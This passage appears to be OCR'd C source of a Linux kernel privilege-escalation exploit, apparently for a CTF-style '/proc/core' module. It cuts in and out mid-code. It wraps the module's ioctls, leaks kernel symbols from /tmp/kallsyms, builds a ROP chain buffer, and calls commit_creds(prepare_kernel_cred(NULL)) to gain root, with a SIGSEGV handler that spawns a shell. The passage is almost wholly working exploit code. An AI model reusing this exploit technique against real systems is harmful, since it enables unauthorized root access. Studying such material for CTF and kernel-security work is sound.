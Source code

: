 ```c
    ioctl(fd, 0x6677889B, buf);
}

void core_set_offset(int fd, size_t offset) {
    ioctl(fd, 0x6677889C, offset);
}

void core_copy(int fd, size_t nbytes) {
    ioctl(fd, 0x6677889A, nbytes);
}

void getroot() {
    void * (*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
    int (*commit_creds_ptr)(void *) = commit_creds;
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}

int main() {
    FILE *syms;
    int fd;
    size_t offset;

    size_t addr;
    size_t canary;
    char type[256], name[256];

    size_t rop[0x100], i;

    puts("\033[34m\033[1m[*] Start to exploit...\033[0m");
    save_status();
    signal(SIGSEGV, shell);

    fd = open("/proc/core", O_RDWR);
    if (fd < 0) {
        puts("\033[31m\033[1m[-] Open /proc/core failed.\033[0m");
        exit(0);
    }

    syms = fopen("/tmp/kallsyms", "r");
    if (syms == NULL) {
        puts("\033[31m\033[1m[-] Open /tmp/kallsyms failed.\033[0m");
        exit(0);
    }

    while (fscanf(syms, "%lx %s %s", &addr, type, name)) {
        if (prepare_kernel_cred && commit_creds && swapgs_restore_regs_and_return_to_usermode) {
            break;
        }

        if (!prepare_kernel_cred && strcmp(name, "prepare_kernel_cred") == 0) {
            prepare_kernel_cred = addr;
            printf("\033[33m\033[1m[√] Found prepare_kernel_cred: %lx\033[0m\n", prepare_kernel_cred);
        }

        if (!commit_creds && strcmp(name, "commit_creds") == 0) {
            commit_creds = addr;
            printf("\033[33m\033[1m[√] Found commit_creds: %lx\033[0m\n", commit_creds);
        }

        if (!swapgs_restore_regs_and_return_to_usermode && strcmp(name, "swapgs_restore_regs_and_return_to_usermode") == 0) {
            swapgs_restore_regs_and_return_to_usermode = addr;
```